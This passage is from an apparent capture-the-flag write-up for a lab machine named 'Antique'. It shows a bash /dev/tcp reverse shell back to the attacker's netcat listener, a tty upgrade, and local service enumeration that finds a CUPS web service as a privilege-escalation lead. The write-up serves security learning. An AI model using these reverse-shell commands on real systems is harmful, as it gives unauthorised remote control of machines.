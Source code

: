 After knowing that, let’s try to create a reverse shell by abusing it:

On the victim machine: ^9309a9

```bash
> exec bash -c 'bash -i >& /dev/tcp/10.10.16.4/1234 0>&1'
```

On our machine:

```bash
nc -lvnp 1234
```

Then threat the tty for a fully interactive shell: ^267c9b

```bash
nc -lvnp 1234
Connection from 10.10.11.107:44824
bash: cannot set terminal process group (1023): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ ^Z
zsh: suspended  nc -lvnp 1234
❯ stty raw -echo; fg
[1]  + continued  nc -lvnp 1234
                               reset xterm
                                          reset: terminal attributes: No such device or address
                                                                                        lp@antique:~$                                                                                               lp@antique:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'

lp@antique:~$ export TERM=xterm
```

#### Privilege Escalation

By enumerating the services running as follows, we are able to find a local service under port tcp-631: ^dac47f

```bash
lp@antique:~$ netstat -ano tcp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN
tcp        0    144 10.10.11.107:44824      10.10.16.4:1234         ESTABLISHED
tcp        0      0 10.10.11.107:23         10.10.16.4:42692        ESTABLISHED
tcp        0      0 10.10.11.107:23         10.10.16.4:57084        ESTABLISHED
tcp6       0      0 ::1:631                 :::*                    LISTEN
udp        0      0 10.10.11.107:46841      8.8.8.8:53              ESTABLISHED
udp        0      0 0.0.0.0:161             0.0.0.0:*
```

An interesting approach to see if this could be a web server is to send an HTTP request via nc:

```bash
lp@antique:~$ nc localhost 631
GET / HTTP/1.1
Host: localhost

HTTP/1.1 200 OK
Date: Tue, 12 Jul 2022 00:56:16 GMT
Server: CUPS/1.6
Connection: Keep-Alive
Keep-Alive: timeout=30
Content-Language: en_US
Content-Type: text/html; charset=utf-8
Last-Modified: Thu, 13 May 2021 05:36:41 GMT
Content-Length: 3792

```